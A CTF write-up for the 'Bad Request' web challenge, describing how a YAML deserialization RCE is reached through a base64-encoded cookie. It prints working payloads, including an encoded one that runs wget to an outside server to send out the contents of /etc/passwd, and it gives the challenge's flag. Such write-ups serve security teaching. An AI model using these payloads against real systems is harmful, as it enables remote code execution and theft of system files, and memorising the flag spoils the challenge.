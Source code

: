 # A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Descreption
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but there is a problem the flag is in `/etc/passwd` and this payload doesn't accept spaces.

so a friend gave me a link `https://xerosecurity.com/wordpress/exploiting-python-deserialization-vulnerabilities/`.

## Solution
I tried a python web server didin't work for me so i tried
`https://requestbin.com/r`

Payload: `Imdvb2RieWUiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6b3Muc3lzdGVtIFsid2dldCBodHRwOi8veW91ci13ZWItc2VydmVyLz9gY2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAneydgIl0=` (decode it to know the answer and put your data and decode it again and input it as a cookie)

Flag:`FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}`

Credits to "ItsFadinG" for helping me solve this challenge.
